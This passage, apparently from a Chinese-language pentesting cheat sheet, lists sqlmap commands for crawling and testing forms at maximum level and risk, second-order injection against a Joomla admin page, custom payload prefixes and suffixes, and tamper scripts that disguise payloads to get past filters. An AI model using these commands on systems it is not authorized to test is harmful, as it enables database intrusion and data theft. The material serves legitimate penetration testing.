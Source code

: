 ```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
### 二次注入
```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```
[**阅读此帖子** ](second-order-injection-sqlmap.md)**关于如何使用 sqlmap 执行简单和复杂的二次注入。**

## 自定义注入

### 设置后缀
```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```
### 前缀
```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "
```
### 帮助寻找布尔注入
```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```
### Tamper

记住，**你可以用 Python 创建自己的 tamper**，这非常简单。你可以在[这里的第二次注入页面](second-order-injection-sqlmap.md)找到一个 tamper 示例。
```bash
--tamper=name_of_the_tamper
#In kali you can see all the tampers in /usr/share/sqlmap/tamper
```
| Tamper                       | Description                                                                                                                        |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| apostrophemask.py            | 用其 UTF-8 全宽对应字符替换撇号字符                                                                                              |
| apostrophenullencode.py      | 用其非法双重 Unicode 对应字符替换撇号字符                                                                                        |
| appendnullbyte.py            | 在有效负载末尾附加编码的 NULL 字节字符                                                                                            |
| base64encode.py              | 对给定有效负载中的所有字符进行 Base64 编码                                                                                       |
| between.py                   | 用 'NOT BETWEEN 0 AND #' 替换大于运算符 ('>')                                                                                     |
| bluecoat.py                  | 用有效的随机空白字符替换 SQL 语句后的空格字符。然后用 LIKE 运算符替换字符 =                                                        |
| chardoubleencode.py          | 对给定有效负载中的所有字符进行双重 URL 编码（不处理已编码的字符）                                                                  |
| commalesslimit.py            | 用 'LIMIT N OFFSET M' 替换类似 'LIMIT M, N' 的实例                                                                                |
| commalessmid.py              | 用 'MID(A FROM B FOR C)' 替换类似 'MID(A, B, C)' 的实例                                                                          |
| concat2concatws.py           | 用 'CONCAT\_WS(MID(CHAR(0), 0, 0), A, B)' 替换类似 'CONCAT(A, B)' 的实例                                                         |
| charencode.py                | 对给定有效负载中的所有字符进行 URL 编码（不处理已编码的字符）                                                                     |